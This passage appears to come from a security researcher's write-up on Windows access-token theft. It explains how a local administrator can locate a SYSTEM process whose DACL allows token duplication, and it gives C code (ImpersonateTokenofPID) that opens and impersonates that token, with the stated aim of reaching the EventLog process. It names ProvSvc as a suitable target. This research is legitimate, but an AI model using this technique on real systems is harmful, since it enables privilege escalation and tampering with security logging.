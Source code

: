 We can see we have only Query rights as administrator for the token, so we have to first find a token that is running as system in order to steal the token of the EventLog process.

In order to steal a system token we first have to find a process that is running as system. Furthermore the DACL of this process needs to allow an local administrator to access the process with *PROCESS_QUERY_LIMITED_INFORMATION* that we do not have to enable the *SeDebugPrivilege*. The next step is that the process token needs to have a DACL that allows local Administrators to open the process token with *TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE* access rights.

So lets search a process that meets this requirements.

We can go through a list of all process ids and check if this function succeeds and afterwards we can check which processes are running as system.

```c
HANDLE ImpersonateTokenofPID(DWORD dwPID) {
	
	DWORD dwSuccess = FAIL;
	BOOL bSuccess = FALSE;
	
	HANDLE hProcess = NULL;

	HANDLE hToken = NULL;
	hProcess = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, dwPID);
	if (hProcess == NULL) {
		goto exit;
	}

	dwSuccess = OpenProcessToken(hProcess, TOKEN_QUERY | TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE, &hToken);
	if (dwSuccess == FAIL) {
		printf("[-] Could not open process token of PID: %d\n", dwPID);
		goto exit;
	}
	bSuccess = ImpersonateLoggedOnUser(hToken);
	if (bSuccess == FAIL) {
		printf("[-] Could not impersonate Token of the PID: %d\n", dwPID);
		goto exit;
	}else{
        RevertToSelf();
    }

exit:

	return hToken;
}
```

After a bit digging at the outcome I could find the ProvSvc, that runs as system and a administrator is able to impersonate the access token.

